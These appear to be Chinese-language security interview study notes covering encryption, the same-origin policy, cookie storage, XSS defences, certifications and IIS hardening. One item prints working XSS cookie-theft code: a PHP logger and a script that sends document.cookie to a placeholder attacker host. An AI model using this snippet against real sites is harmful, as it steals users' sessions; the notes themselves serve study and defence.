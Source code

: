 1.对称加密 非对称加密？

.对称加密：加解密用同一密钥，密钥维护复杂 n（n-1）/2，不适合互联网传输密钥，加解密效率高。应用于加密数据。

.非对称加密：公钥推不出私钥，每个用户一个非对称密钥对就可以，适合于互联网传输公钥，但是加密效率低，应用于数字签名及加密。

2.什么是同源策略？

.为了防止不同域在用户浏览器中彼此干扰，浏览器对从不同来源（域）收到的内容进行隔离。

.浏览器不允许任何旧有脚本访问一个站点的cookie，否则，会话容易被劫持。

.只有发布cookie的站点能够访问这些cookie，只有通过该站点返回的页面所包含或加载的JavaScript才能访问cookie。

3.cookie存在哪里？可以打开吗

.C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Cookies  工具--文件夹选项--查看--将隐藏被保护的文件的对勾去掉就会看到cookies文件夹。

4.xss如何盗取cookie？

.攻击者代码：

<?php  
$cookie=$_GET['cookie'];  
$time=date('Y-m-d g:i:s');  
$referer=getenv('HTTP_REFERER');  
$cookietxt=fopen('cookie.txt','a');  
fwrite($cookietxt,"time:".$time." cookie:".$cookie." referer:".$referer.""); 注意双引号，容易出错  
fclose($cookietxt);  
?>  

.脚本端：
<script>  
document.write('<img src="http://ip/cookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');  
</script>  

5.证书要考哪些？

.信息安全国际第一认证——CISSP

.信息安全国内认证——CISAW

.信息安全国内认证——CISP

.信息安全技术实操认证新贵——Security+

.IT审计人员的必备之证——CISA

6.xss如何防御

.对前端输入做过滤和编码：比如只允许输入指定类型的字符，比如电话号格式，注册用户名限制等，输入检查需要在服务器端完成，在前端完成的限制是容易绕过的；

对特殊字符进行过滤和转义；

.对输出做过滤和编码：在变量值输出到前端的HTML时进行编码和转义；

.给关键cookie使用http-only

7.IIS服务器应该做哪些方面的保护措施：

. 保持Windows升级:

. 使用IIS防范工具

. 移除缺省的Web站点

. 如果你并不需要FTP和SMTP服务，请卸载它们

. 有规则地检查你的管理员组和服务:

. 严格控制服务器的写访问权限

. 设置复杂的密码

. 减少/排除Web服务器上的共享

. 禁用TCP/IP协议中的NetBIOS:

. 使用TCP端口阻塞

. 仔细检查*.bat和*.exe 文件: 每周搜索一次*.bat

. 管理IIS目录安全:

. 使用NTFS安全:

. 管理用户账户

. 审计你的Web服务器:
